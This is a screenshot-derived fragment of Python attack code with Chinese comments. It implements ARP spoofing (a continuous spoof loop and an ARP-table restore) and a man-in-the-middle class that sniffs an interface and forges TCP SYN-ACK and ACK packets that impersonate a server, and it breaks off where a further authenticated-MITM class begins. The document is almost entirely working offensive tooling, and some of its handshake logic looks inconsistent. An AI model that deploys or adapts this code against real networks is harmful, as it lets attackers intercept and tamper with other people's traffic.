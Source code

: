```py
    def restore(self):
        """
        恢复正常的ARP表
        """
        self.send_arp(self.client_ip, self.client_mac, self.server_ip, self.server_mac)
        self.send_arp(self.server_ip, self.server_mac, self.client_ip, self.client_mac)

    def run(self):
        """
        启动ARP欺骗攻击并嗅探流量
        """
        while True:
            self.spoof()  # 持续伪造ARP响应
            time.sleep(1)

class MITMHandshakeHost:
    def __init__(self, attacker_ip, attacker_mac, server_ip, client_ip):
        self.attacker_ip = attacker_ip
        self.attacker_mac = attacker_mac
        self.server_ip = server_ip
        self.client_ip = client_ip
        self.seq = None  # 用于记录当前的TCP序列号

    def intercept_traffic(self, packet):
        """
        拦截并篡改TCP流量，特别是在握手阶段
        """
        if "IP" in packet and "TCP" in packet:
            # 监听来自客户端的SYN包，进行握手
            if packet["IP"].src == self.client_ip and packet["TCP"].flags == "S" and packet["IP"].dst == self.server_ip:
                self.seq = random.randrange(0, 2**32)
                scapy.sendp(
                    scapy.Ether(src=self.attacker_mac, dst=packet["Ether"].src) /
                    scapy.IP(src=self.server_ip, dst=self.client_ip) /
                    scapy.TCP(sport=packet["TCP"].dport, dport=packet["TCP"].sport, seq=self.seq, ack=packet["TCP"].seq + 1, flags="SA"),
                    iface="eth0",
                    verbose=False,
                )

            # 监听服务器的ACK包并确认连接
            if packet["IP"].src == self.server_ip and packet["TCP"].flags == "A" and packet["IP"].dst == self.client_ip:
                # 发送数据包完成握手，进行后续操作
                scapy.sendp(
                    scapy.Ether(src=self.attacker_mac, dst=packet["Ether"].src) /
                    scapy.IP(src=self.server_ip, dst=self.client_ip) /
                    scapy.TCP(sport=packet["TCP"].dport, dport=packet["TCP"].sport, seq=self.seq, ack=packet["TCP"].seq + 1, flags="A"),
                    iface="eth0",
                    verbose=False,
                )
                return True

    def run(self):
        """
        启动TCP嗅探和篡改
        """
        scapy.sniff(prn=self.intercept_traffic, iface="eth0")

class MITMAuthenticatedHost:
    def __init__(self, attacker_ip, server_ip, client_ip, attacker_mac):
```